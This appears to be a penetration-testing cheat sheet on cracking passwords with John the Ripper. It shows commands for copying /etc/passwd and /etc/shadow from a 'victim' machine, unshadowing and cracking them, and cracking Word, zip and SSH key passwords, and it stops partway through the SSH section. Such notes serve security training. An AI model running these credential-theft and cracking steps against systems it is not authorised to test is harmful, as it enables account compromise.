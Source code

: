 
### Brute forcing /etc/passwd and /etc/shadow

**First**, save /etc/passwd and john /etc/shadow from the victim machine to the attacker machine.

**Second**, use unshadow to put users and passwords in the same file:

```bash
unshadow passwd shadow > crackme
# passwd: file saved with /etc/passwd content.
# shadow: file saved with /etc/shadow content.
```

**Third**, run johtheripper. You can use a list of users or specific ones brute force:

```bash
john -incremental -users:<userList> <fileToCrack>

# To display the passwords recovered:
john --show crackme

# Default path to cracked password: /root/.john/john.pot

# Dictionary attack
john -wordlist=<file> -users=victim1,victim2 -rules <filetocrack>
# -rules parameter adds som mangling to the wordlist
```

## Cracking Password of Microsoft Word file

```
cd /root/Desktop/
/usr/share/john/office2john.py MS_Word_Document.docx > hash
cat hash
john --wordlist=/root/Desktop/wordlists/1000000-password-seclists.txt hash
```

## Cracking password of a zip file

List compressed files:

```shell-session
curl -s https://fileinfo.com/filetypes/compressed | html2text | awk '{print tolower($1)}' | grep "\." | tee -a compressed_ext.txt
```

```bash
zip2john nameoffile.zip > zip.hashes
cat zip.hashes
john zip.hashes
```

## Cracking a ssh private key

There is a Python script called [`ssh2john.py`](ssh2john.md) for SSH keys, which generates the corresponding hashes for encrypted SSH keys, which we can then store in files. It's preinstalled in Kali linux:
